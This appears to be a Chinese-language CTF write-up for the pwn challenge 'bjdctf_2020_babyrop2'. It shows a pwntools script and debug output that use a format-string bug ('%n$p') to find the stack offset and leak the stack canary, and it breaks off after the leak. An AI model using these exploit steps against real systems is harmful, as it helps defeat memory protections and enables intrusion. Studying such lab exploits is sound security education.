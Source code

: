 > `gift`函数

![image-20240101131040053](../assets/img/old_imgs/image-20240101131040053.png)

> `vuln`函数

1. 存在`canary`机制考虑怎么泄露`canary`,在`gift`函数中存在一个格式化字符漏洞可以利用

   - 因为这里对输入长度做了限制,所以不能用常规`%p%p%p...`来泄露偏移量,但是我们可以用`%n$p`来泄露偏移量,`n`是偏移的位置,`$p`是打印该位置上的值

     ```python
     from pwn import *
     context.log_level = 'debug'
     io = process('./bjdctf_2020_babyrop2')
     io.sendlineafter(b"I'll give u some gift to help u!\n",b'A%6$p')
     io.interactive()
     ```

     ```shell
     [DEBUG] Received 0x44 bytes:
         b'Can u return to libc ?\n'
         b'Try u best!\n'
         b"I'll give u some gift to help u!\n"
     [DEBUG] Sent 0x6 bytes:
         b'A%6$p\n'
     [*] Switching to interactive mode
     [DEBUG] Received 0x36 bytes:
         b'A0x7024362541\n'
         b'Pull up your sword and tell me u story!\n'
     A0x7024362541
     Pull up your sword and tell me u story!
     $
     ```

     > 当`n`等于`6`时看到了`0x41`,确定偏移为`6`

   - 根据上面提到的,我们知道`canary`在栈的末尾,所以把偏移往后移一位就可以得到`canary`的值

     ```shell
     [DEBUG] Received 0x23 bytes:
         b'Can u return to libc ?\n'
         b'Try u best!\n'
     [DEBUG] Received 0x21 bytes:
         b"I'll give u some gift to help u!\n"
     [DEBUG] Sent 0x6 bytes:
         b'A%7$p\n'
     [*] Switching to interactive mode
     [DEBUG] Received 0x13 bytes:
         b'A0x6b3d526f8ba61400'
     $
     ```
